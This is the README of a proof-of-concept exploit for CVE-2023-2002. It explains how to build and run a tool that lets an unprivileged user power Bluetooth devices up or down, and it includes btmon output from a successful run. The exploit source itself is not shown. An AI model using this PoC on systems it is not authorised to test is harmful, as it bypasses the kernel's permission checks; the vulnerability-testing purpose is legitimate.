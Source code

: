 # bt_power

Set the power status of Bluetooth devices as an unprivileged user. This is a
PoC exploit of CVE-2023-2002.

## Build

Simply run `make` in the same directory as `bt_power.c`.

## Usage

If no arguments are passed, the usage message will be displayed:
```
$ ./bt_power
Usage: ./bt_power POWER_STATUS DEVICE_INDEX
	POWER_STATUS := { up | down }
	DEVICE_INDEX := { 0 | 1 | ... }
```

## Examples

```
./bt_power up 0
```
This attempts to power up the 0th Bluetooth device. If the kernel is
vulnerable to CVE-2023-2002, `bt_power` can be executed by an unprivileged
user and it will succeed with a `Success!` message. Otherwise, if the kernel
is not vulnerable and `bt_power` is executed by an unprivileged user, it
should fail with a `Failed. Reason: MGMT_STATUS_PERMISSION_DENIED` message.

It is helpful to run `btmon` in another terminal, which monitors the
management commands sent and the events received, so that one can clearly see
what is happening:
```
$ sudo btmon
Bluetooth monitor ver 5.66
= Note: Linux version 6.2.10-arch1-1 (x86_64)
= Note: Bluetooth subsystem version 2.22
= New Index: XX:XX:XX:XX:XX:XX (Primary,USB,hci0)
@ RAW Open: sudo (privileged) version 2.22
@ RAW Close: sudo
@ MGMT Open: sudo (privileged) version 1.22
@ MGMT Command: Set Powered (0x0005) plen 1
        Powered: Enabled (0x01)
= Open Index: XX:XX:XX:XX:XX:XX
...
... omitted HCI commands and events
...
@ MGMT Event: Command Complete (0x0001) plen 7
      Set Powered (0x0005) plen 4
        Status: Success (0x00)
        Current settings: 0x00000081
          Powered
          BR/EDR
@ MGMT Close: sudo
```
